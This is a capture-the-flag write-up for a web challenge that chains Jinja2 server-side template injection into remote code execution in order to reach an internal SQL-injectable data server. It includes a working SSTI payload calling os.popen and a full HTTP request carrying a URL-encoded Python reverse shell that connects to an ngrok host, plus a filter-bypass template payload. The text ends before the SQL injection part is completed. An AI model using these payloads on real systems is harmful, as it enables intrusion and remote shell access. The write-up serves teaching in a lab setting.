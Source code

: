 In this server, they'll check our input of username and password from the main server, the query is sqli-able so we just need to inject it and leak the flag easily. But it wasn't that easy, the data server only response when the main server request to it, so it has to be internal server. After analysing, we'll know the workflow of the website.

- First the main server will check if our input username and password has any dot in it, if don't, they will send a request to data server with our input username and password (and alphanumericalOnly) as json.
- The data server will receive the request and treat our input by adding it to a query which check the username and password and then return True if it right or False if not (boolean based sqli)
- Come back to the main server, if the data server return True, it will render `OMG you are like so good at guessing our flag I am lowkey jealoussss.` which means we have input the right flag, but it's impossible to has this show up because we can't input `{` since the request of data is alphanumerical only. So it'll always return `ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)`

The thing we want is the True and False return from the data server, not the render of main server, which means we have to make the request from the main server, so it will be able to connect with internal server. To do that, we have to RCE the server first.

```python
{{lipsum['__globals__']['os']['popen']('ls')['read']()}}
```

![image](https://user-images.githubusercontent.com/75429369/180784191-46f382c4-cb43-4e47-be93-99625bd6f9dd.png)

We want to know the IP of the data server to make request to it, so we have to read the `main.py`. Since it has the dot in the name file so I decided to get reverse shell to intuitively do the challenge.

I'll use the inject-directly-to-config-and-popen-it method (you can find out how in my ImaginaryCTF write up), i won't explain it here.

```
POST /?t=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%220.tcp.ap.ngrok.io%22%2C12720%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27 HTTP/1.1
Host: litctf.live:31781
Content-Length: 145
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://litctf.live:31781
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://litctf.live:31781/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=assdf&password=%7B%7B%28config%7Cattr%28dict%28up%3Dup%2Cdate%3Ddate%29%7Cjoin%29%29%28t%3Drequest%5B%27args%27%5D%5B%27t%27%5D%29%7D%7D
```
